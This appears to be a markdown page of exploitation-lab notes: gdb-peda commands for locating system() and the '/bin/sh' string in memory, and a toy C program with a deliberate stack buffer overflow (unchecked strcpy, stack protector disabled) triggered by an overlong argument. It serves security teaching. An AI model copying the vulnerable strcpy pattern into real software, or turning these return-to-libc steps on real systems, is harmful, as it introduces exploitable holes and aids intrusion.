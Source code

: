 </br>

### gdb

#### Find system address

* source /usr/share/gdb-peda/peda.py
* r
* print system
* find "/bin/sh" all
* x/s *((char **)environ)

* break main
* clear

````
// gcc -m32 -std=c99 tst.c
//

#include <stdio.h>
#include <string.h>

int main(void)
{
    char s[] = "/bin/sh";
    char *p = (char *) 0xbffff000;

    // Get system addr from gdb
    p = (char *)0xf7e0c980;

    while (memcmp(++p, s, sizeof s));

    printf("%s\n", p);
    printf("%p\n", p);
}
````


</br>

## Simple buffer overflow : overwrite a stack variable

````
$ cat buffer_01.c
#include <stdio.h>
#include <string.h>
int main(int argc, char *argv[])
{
  char  tst=0;
  char name[10];

  strcpy(name, argv[1]);
  printf("Hello %s\n", name);
  if (tst=='Z') printf("Pwnd");
  return 0;
}
$ gcc -fno-stack-protector buffer_01.c -o buffer_01
$ buffer_01 ZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZ
````
